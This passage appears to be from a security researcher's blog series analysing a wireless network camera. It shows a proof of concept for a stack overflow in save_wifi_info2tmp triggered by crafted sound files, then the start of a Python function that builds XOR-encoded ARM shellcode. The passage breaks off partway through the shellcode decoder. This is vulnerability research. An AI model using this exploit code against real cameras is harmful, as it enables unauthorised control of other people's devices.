 So with these hooks in place, we can generate sounds to exploit the bugs!

# Bug 1 Exploit

For some reason gdb didn't like showing that this bug caused a segfault and the remote connection dies, but setting a breakpoint at the end of the **save_wifi_info2tmp** function shows that *r11* and *pc* will be popped from the stack and will both be *0x41414141*.

![bug1_poc.png](/assets/images/analysing_a_wireless_network_camera_part_5/bug1_poc.png)

We can also pull the generated wav file with the following command: **adb pull /storage/emulated/0/Android/data/com.yunyi.smartcamera/cache/pcm/sample.wav**

Now that we have got a PoC for the bug going, its time to see if we can exploit the bug to make the camera do something!

When I was testing out larger exploits, the **libpcmjni.so** library refused to generate a wav when the length of the input is greater than 128 bytes - so we are very limited on size. This means I'll have to use the overpowered OOB read from the last blog to work out where our data will be placed in ***libYiP2P.so*** memory. As this memory is executable, we can jump to this and execute a crafted shellcode.

Here is the code I wrote to generate a payload that decodes a few instructions after the decoder and executes them (after sleeping to allow the caches to flush):

```
-python
def generate_light_on_shellcode_payload(payload_start, libc_base, target_length):
	key = 0xfc
	
	# first build payload so that we can give the decoder the correct lengths
	payload_asm = f"""
		ldr r1, =#0x3bfe8
		mov r0, #0x1
		blx r1
		ldr r1, =#{hex(libc_base+0x49c74)}
		mov r0, #0x10
		blx r1
	"""

	payload_assembled = asm(payload_asm, arch='arm', endian="little")

	info("Decoded payload:")
	info(get_hexdump(payload_assembled))

	payload_assembled_bytes = xor_bytes(bytes.fromhex(payload_assembled.hex()), key)

	# get decoder first
	decoder_asm = f"""
	@ Inputs:
	@ r1: Length of the input array
```